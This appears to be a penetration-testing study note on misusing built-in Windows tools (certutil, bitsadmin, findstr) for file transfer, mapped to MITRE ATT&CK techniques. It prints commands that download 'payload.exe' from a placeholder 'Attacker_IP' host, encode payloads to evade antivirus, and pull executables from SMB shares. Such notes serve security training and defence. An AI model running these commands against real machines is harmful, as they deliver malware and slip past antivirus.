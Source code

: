 # File operations

## Certutil

Certutil is a preinstalled tool on Windows OS that can be used to download malicious files and evade Antivirus.

Certutil is a CLI tool to dump and display certificate authority (CA), configuration information, configures 
Certificate Services, backup and restore CA components, and verify certificates, key pairs, and certificate chains. 
It is installed as a part of Certificate Services. It can also be used to transfer and encode files unrelated to 
certification services. The MITRE ATT&CK framework refers to the first as Ingress tool transfer 
([T1105](https://attack.mitre.org/techniques/T1105/)), and the second as [T1027](https://attack.mitre.org/techniques/T1027/).

To download a file from an attacker's web server and store it in the Window's temporary folder:

    certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe

* `-urlcache` to display URL, enables the URL option to use in the command.
* `-split -f` to split and force fetching files from the provided URL.

To encode a payload:

    certutil -encode payload.exe Encoded-payload.txt
    certutil -decode Encoded-payload.txt payload.exe

## BITSAdmin

BITSAdmin is a tool preinstalled on Windows OS that can be used to download malicious files.

Background Intelligent Transfer Service Admin is a command-line tool that creates downloads or uploads jobs and monitors 
their progress. When BITS downloads a file, the actual download is done behind the svchost.exe service. BITSAdmin can 
be used to download files from or upload files to HTTP web servers and SMB file shares. It takes the cost of the 
transfer into account, as well as the network usage so that the user’s foreground work is not influenced. BITS has 
the ability to handle network interruptions, pausing and automatically resuming transfers, even after a reboot.

To download using /transfer Switch:

    bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe

* `/Transfer`, to use the transfer option.
* `/Download`, specifying transfer using download type.
* `/Priority`, of the job to be running in the foreground.

## Findstr

Findstr is a tool pre-installed on Windows that can be used to find text and string patterns in files.

It can also be used to download remote files from SMB shared folders within the network.

    findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe

* `/V` to print out the lines that do not contain the string provided.
* `dummystring` the text to be searched for; in this case, we provide a string that must not be found in a file.
* `> c:\Windows\Temp\test.exe` redirect the output to a file on the target machine.

## Resources

* [Microsoft Docs: certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [Microsoft Docs: bitsadmin](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin)
* [Microsoft Docs: findstr](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)

